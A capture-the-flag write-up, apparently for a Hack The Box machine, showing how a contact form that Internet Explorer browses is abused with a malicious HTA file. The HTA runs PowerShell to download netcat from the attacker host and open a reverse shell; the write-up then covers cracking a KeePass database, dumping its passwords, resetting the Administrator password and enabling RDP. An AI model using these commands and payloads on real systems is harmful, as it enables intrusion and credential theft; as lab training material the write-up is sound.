

## Virtual

### User flag

```bash
$ nmap -sS -sV -Pn -n -p- -T5 10.129.1.26

Nmap scan report for 10.129.1.26
Host is up (0.023s latency).
Not shown: 65522 closed ports
PORT      STATE SERVICE       VERSION
80/tcp open  http    Apache httpd 2.4.48 ((Win64) PHP/8.0.8)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

For this challenge, we were given a web application listening on the port 8080, hosted on Windows, that provided a contact form with the indication "`We usually respond to queries after a few minutes`":


We noticed we could send arbitrary links that ended being browsed by Internet Explorer. For example, by submitting the form with the message `http:///10.10.14.65:8080/aa`, we received the following request:
```bash
$ nc -nlvp 8080

GET /aa HTTP/1.1
Accept: /
Accept-Language: en-US
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
Host: 10.10.14.65:8080
Connection: Keep-Alive
```

After playing a bit with JavaScript, we tried to provide an HTML Application (HTA) to Internet explorer, and we were surprised it worked.

We then submitted another HTML Application that downloaded and executed a pre-built *netcat* binary in order to spawn a reverse shell on the box:

```bash
$ cat index.hta

<html>
<head>
<script language="VBScript">
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "powershell curl http://10.10.14.65:8080/nc.exe -o C:/Windows/Temp/nc.exe; C:/Windows/Temp/nc.exe 10.10.14.65 9999 -e powershell.exe"
    End Sub
RunProgram()
</script>
</head>
<body>
    Nothing to see here..
</body>
</html>

$ python3 -m http.server 8080

POST / HTTP/1.1
Host: 10.129.1.26
Content-Type: application/x-www-form-urlencoded
Content-Length: 86

name=b&email=aa%40aa.com&subject=a&message=http%3A%2F%2F10.10.14.65%3A8080%2Findex.hta
```

Once the application was ran by Internet Explorer, we received a reverse shell. 

We noticed we were already local Administrator. However, there was only a user flag on the file system:

```bash
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.65] from (UNKNOWN) [10.129.1.26] 49632
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Apache24\htdocs>> whoami /all
whoami /all

USER INFORMATION
----------------
User Name             SID                                         
===================== ============================================
virtual\administrator S-1-5-21-1926016034-1676465966-846418798-500

GROUP INFORMATION
-----------------
Group Name                                                    Type             SID                                           Attributes                                                     
============================================================= ================ ============================================= ===============================================================
Everyone                                                      Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114                                     Mandatory group, Enabled by default, Enabled group             
VIRTUAL\docker-users                                          Alias            S-1-5-21-1926016034-1676465966-846418798-1000 Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                                        Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner
[...]

PS C:\Users\dev\Desktop> type user.txt
type user.txt
HTB{9077a_l0ve_H7a}
```

When searching for the root flag, we noticed multiple interesting files and directories:

* C:\Users\dev\Documents\\Database.kdbx
* C:\Users\Administrator\\.docker
* C:\Users\Administrator\\.minikube
* C:\Users\Administrator\\.VirtualBox

The KeePass database was protected by a password so we cracked it using john:

```bash
$ keepass2john Database.kdbx > hashes.lst

$ john --wordlist="SecLists/Passwords/Leaked-Databases/rockyou-75.txt" hashes.lst 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
purple           (Database)
1g 0:00:00:00 DONE (2021-07-27 03:16) 5.555g/s 200.0p/s 200.0c/s 200.0C/s sunshine..justin
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The database contains a custom entry named `Docker Server`:

```bash
$ keepassxc-cli export Database.kdbx  -f csv
Enter password to unlock Database.kdbx: purple

"Group","Title","Username","Password","URL","Notes"
"Database","Sample Entry","User Name","Password","https://keepass.info/","Notes"
"Database","Sample Entry #2","Michael321","12345","https://keepass.info/help/kb/testform.html",""
"Database/Network","Docker Server","dev","VeryStrongPassword1!","",""
```

We listed the VirtualBox machines belonging to the Administrator user:

```bash
PS C:\Program Files\Oracle\VirtualBox> ./VBoxManage list vms
"Docker" {11bdf380-f3ae-422e-92f7-6f0f816743d1}
```

As we noticed a Docker VM running on VirtualBox, we decided to set up an RDP in order to easily interact with the VM. To do so, we enabled RDP and we changed the local Administrator password:

```bash
PS> net user Administrator Test1234
net user Administrator Test1234
The command completed successfully.

PS> reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

Finally, we logged in using the RDP access, and we authenticated as `dev` on the Docker VM's console with the password `VeryStrongPassword1!` that was stored on the KeePass:

```bash
$ xfreerdp /u:Administrator /p:'Test1234' /v:10.129.1.26
[03:31:09:044] [9943:9944] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[03:31:09:044] [9943:9944] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[03:31:09:044] [9943:9944] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd
[03:31:09:044] [9943:9944] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr
```
 


The `dev` user was on the sudoers so it was allowed to escalate its privileges to `root` inside the VM and to read the root flag:

 

From the screen, we read `HTB{v80X_G0t_m4n4g3d}`.
